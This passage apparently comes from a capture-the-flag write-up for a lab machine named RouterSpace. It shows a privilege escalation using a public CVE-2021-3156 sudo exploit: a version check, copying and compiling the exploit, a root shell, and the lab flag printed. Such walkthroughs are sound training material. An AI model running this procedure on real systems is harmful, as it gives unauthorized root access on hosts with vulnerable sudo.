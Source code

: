 ```bash
paul@routerspace:~$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31

paul@routerspace:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.3 LTS
Release:	20.04
Codename:	focal

┌──(void㉿void)-[/htb/routerspace]
└─$ scp -i paul-id_rsa -rp sudo-exploit-main paul@routerspace.htb:/dev/shm                                                                                1 ⨯
sice.c                                                                                                                      100%  176     5.5KB/s   00:00    
README.md                                                                                                                   100%  234     7.6KB/s   00:00    
Makefile                                                                                                                    100%   95     3.0KB/s   00:00    
exploit.c                                                                                                                   100% 2651    82.9KB/s   00:00 

paul@routerspace:/dev/shm/sudo-exploit-main$ make
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:75:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   75 |     execve(argv[0], argv, env);
      |     ^~~~~~
mkdir libnss_X
gcc -g -fPIC -shared sice.c -o libnss_X/X.so.2

paul@routerspace:/dev/shm/sudo-exploit-main$ ./exploit 
root@routerspace:/dev/shm/sudo-exploit-main# id && cat /root/root.txt
uid=0(root) gid=1001(paul) groups=1001(paul)
3d6de1c1362a1d59bd130fd45d895e45
```


------

# References
**Install Anbox:**
https://docs.anbox.io/userguide/install_kernel_modules.html

**CVE-2021-3156:**
https://github.com/redhawkeye/sudo-exploit